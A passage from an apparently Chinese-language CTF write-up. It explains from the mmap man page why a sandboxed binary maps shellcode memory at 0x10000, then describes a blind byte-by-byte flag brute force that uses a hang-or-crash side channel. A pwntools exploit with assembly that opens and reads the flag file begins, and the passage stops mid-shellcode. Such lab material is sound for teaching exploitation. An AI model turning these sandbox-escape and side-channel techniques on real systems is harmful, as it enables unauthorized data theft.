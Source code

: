 ```bash
// about mmap (link: https://man7.org/linux/man-pages/man2/mmap.2.html)
// 1. SYNOPSIS
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);

/* 2. DESCRIPTION
 mmap() creates a new mapping in the virtual address space of the
       calling process.  The starting address for the new mapping is
       specified in addr.  The length argument specifies the length of
       the mapping (which must be greater than 0).

       If addr is NULL, then the kernel chooses the (page-aligned)
       address at which to create the mapping; this is the most portable
       method of creating a new mapping.  If addr is not NULL, then the
       kernel takes it as a hint about where to place the mapping; on
       Linux, the kernel will pick a nearby page boundary (but always
       above or equal to the value specified by
       /proc/sys/vm/mmap_min_addr) and attempt to create the mapping
       there.  If another mapping already exists there, the kernel picks
       a new address that may or may not depend on the hint.  The
       address of the new mapping is returned as the result of the call.
......
*/
```

由 `on Linux, the kernel will pick a nearby page boundary (but always above or equal to the value specified by /proc/sys/vm/mmap_min_addr)` 可知：Linux 为 `mmap` 分配虚拟内存时，总是从最接近 `addr` 的页边缘开始的，而且保证地址不低于 `/proc/sys/vm/mmap_min_addr` 所指定的值。  
可以看到，`mmap_min_addr = 65536 = 0x10000`，因此刚才判断程序利用 mmap 函数在 0x10000 处开辟一个 page 的空间

因此 mmap 申请的内存的起始地址应该为 0x10000，截至地址应该为 0x11000，大小为 0x1000，这里附上其他师傅进行动调 vmmap 得到的结果，和我所理解的是一样的

[![](assets/1701612140-66ef09e5b4d32fc904cb30a1f85b5c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203704-70756b70-3b68-1.png)

由于缺少 write() 函数，我们无法输出 flag，可以进行单个字节的对比爆，即读取 flag 到一块内存区域，随后单字节爆破，在 shellcode 中设置 loop 循环，一旦 cmp 命中就让程序卡死，否则执行后面的 exit 因为沙箱禁用程序崩溃退出，根据程序的表现可以区分是否命中，注意因为服务器通信不稳定，每次读到一段 flag 就更新 exp 中的 flag 字符串继续向后爆破

exp：

```bash
#coding=utf-8
from pwn import *

context.update(arch='amd64',os='linux',log_level='info')

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x10700
            mov dl,0x40
            xor rax,rax
```